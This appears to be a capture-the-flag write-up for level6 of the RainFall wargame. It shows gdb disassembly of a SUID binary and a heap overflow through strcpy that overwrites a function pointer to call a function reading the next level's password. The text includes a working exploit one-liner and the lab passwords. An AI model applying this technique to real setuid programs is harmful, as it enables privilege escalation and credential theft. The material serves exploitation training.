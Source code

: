 Login as `level6`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.0.18 -p 4242 -l level6
level6@192.168.0.18's password: d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
A `SUID` executable is located in the home directory.
```shell
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
By looking binary, three functions are defined.
1. `n()` function calls `system("/bin/cat /home/user/level7/.pass")`
2. `m()` function outputs a line "Nope" on stdout
3. `main()` which allocates 64 a 4 bytes, assing `m()` to a function pointer variable, calls `strcpy()` and finally calls function pointer.
```gdb
level6@RainFall:~$ gdb ./level6
(gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disassemble m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp) 
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485d1
0x80485d1:	 "Nope"
(gdb) disassemble n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt> # malloc(64)
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt> # malloc(4)
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx # edx = 0x8048468
   0x080484aa <+46>:	mov    0x18(%esp),%eax # eax = fnPointer
   0x080484ae <+50>:	mov    %edx,(%eax) # fnPointer = edx
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> # strcpy(av[1], str)
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax # fnPointer()
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```
SECURITY CONSIDERATIONS section on man page of `strcpy` indicates that the `strcpy()` can be misused in a manner which enables to change a running program's functionality through a buffer overflow attack.

By running executable with first argument containing 128 bytes, is seems that the value of fuction pointer is overwritten and program try to call something `0x41414141`.
```gdb
level6@RainFall:~$ gdb -q ./level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) run $(python -c "print 'A'*128")
Starting program: /home/user/level6/level6 $(python -c "print 'A'*128")

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
So, using address of `n()` function as argumet it can be repeated n-times until it lay in right place.
```shell
level6@RainFall:~$ for i in {0..100}; do ./level6 $(python -c "print '\x54\x84\x04\x08'*$i") | grep -v Nope && break; done
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
